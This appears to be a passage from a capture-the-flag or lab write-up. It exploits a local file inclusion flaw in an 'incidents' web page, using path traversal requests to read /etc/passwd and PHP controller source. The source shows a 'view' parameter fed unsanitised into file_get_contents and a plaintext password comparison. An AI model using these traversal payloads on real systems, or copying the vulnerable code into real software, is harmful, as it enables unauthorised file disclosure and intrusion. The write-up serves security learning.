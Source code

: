 These requests return the following `<pre>` tags:
```
GET /incidents?view=sqli-details.txt HTTP/1.1
<pre>
    SQL injection attack on login page
    FilePath: /var/www/html/app/controllers/LoginController.php
</pre>

GET /incidents?view=malware-details.txt HTTP/1.1
<pre>
    Support ran the malware stored on the share system
    FilePath: /home/share/smbuser/firefox
</pre>

GET /incidents?view=brute-force-details.txt HTTP/1.1
<pre>
    Brute force attack on login page 
    FilePath: /var/www/html/app/controllers/LoginController.php
</pre>
```

We can test an LFI (Local File Inclusion): ```GET /incidents?view=../../../../../../../../../etc/passwd HTTP/1.1```. It works. I tested some paths to find interesting files, but I couldn't find anything useful. So, let's test the files discovered above.
```
GET /incidents?view=../../../../../../../../../var/www/html/app/controllers/LoginController.php HTTP/1.1
<pre><?php
use app\models\User;

if(isset($_POST['username']) && isset($_POST['password']))
{
    $user = new User;

    $result = $user->find('username',$_POST['username']);
    if($result && $result->password == $_POST['password'])
    {
        $_SESSION['auth'] = True;
        return header('Location: /incidents');
    }
}

require '../app/views/login.php';</pre>
```
```
GET /incidents?view=../../../../../../../../../var/www/html/app/controllers/IncidentsController.php HTTP/1.1
<pre><?php

if(!$_SESSION['auth'])
{
    set_flash('Access Denied!');
    header('Location: /');
}

if(isset($_GET['view']) && !empty($_GET['view']))
{
    $file = file_get_contents("../incidents/{$_GET['view']}");
    return require "../app/views/reports.php";
}

require '../app/views/incidents.php';</pre>
```
